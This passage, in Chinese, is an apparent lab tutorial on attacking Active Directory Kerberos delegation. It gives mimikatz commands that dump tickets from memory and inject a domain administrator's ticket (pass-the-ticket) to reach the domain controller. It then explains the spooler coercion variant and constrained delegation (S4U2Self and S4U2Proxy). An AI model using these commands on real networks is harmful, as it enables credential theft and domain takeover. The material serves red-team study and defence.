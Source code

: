 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091105.png)

用域管访问WIN-E6FR4HVBPCI机器

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091106.png)

然后在WIN-E6FR4HVBPCI上以管理员权限运行mimikatz

privilege::debug

导出票据

sekurlsa::tickets /export

![]()

此时拿到了管理员的票据，用mimikatz将票据注入内存中，然后访问域控

导入票据

kerberos::ptt [0;11eeaa]-2-0-60810000-Administrator@krbtgt-HIRO.COM.kirbi

查看票据

kerberos::list

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091108.png)

####  **非约束委派+spooler打印机**

费约束委派常规利用感觉还是比较鸡肋，想得到域内权限必须要管理员与配置了委派的机器建立连接，所以有国外的大佬研究出了非约束委派+spooler打印机来强制与指定的主机进行连接。开始域控为server2012，后面网上有的大佬说可能是版本的问题，后面升级到了server2016还是报错，这种情况复现不了了，有兴趣的可以自己试一试。也可以参考这篇文章。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091109.png)

* * *

##  

##  **约束委派**

由于非约束委派的不安全性，微软在windows server
2003中引入了约束委派，对Kerberos协议进行了拓展，引入了S4U，其中S4U支持两个子协议：Service for User to Self
(`S4U2Self`)和 Service for User to Proxy
(`S4U2proxy`)，这两个扩展都允许服务代表用户从KDC请求票证。`S4U2self可以代表自身请求针对其自身的可转发的Kerberos服务票据(ST1)`；`S4U2proxy可以以用户的名义请求其它服务的ST2`，
**约束委派就是限制了S4U2proxy扩展的范围** 。

 **其中：**

`S4U2Self`（ **用用户的TGT向KDC请求用户的可转发的ST1，再用这张ST1去发起S4U2proxy请求。** ）
通过此扩展可以拿到一张标识任意用户身份的ST，它的作用其实是`协议转换`。
**有时用户会通过`其他协议`（例如NTLM或什至基于表单的身份验证）对服务进行身份验证，因此他们不会将TGS发送给服务。在这种情况下，服务可以`调用S4U2Self来要求身份验证服务为其自身的任意用户生成TGS`，然后可以在调用S4U2Proxy时将其用作依据。**例如网站A服务器可以使用它去向KDC请求一张用户B身份的ST1，网站A服务器再用这张ST1去发起S4U2proxy请求。

`S4U2proxy`（ **拿用户的可转发的ST1请求用于访问服务器的ST2** ）
该拓展作用是使用一张用户A身份的ST1去向KDC请求一张用于访问文件服务器B的ST2，这张ST2的身份还是用户的，这样的话网站A就可以利用用户A的权限去访问文件服务器B上的文件了。
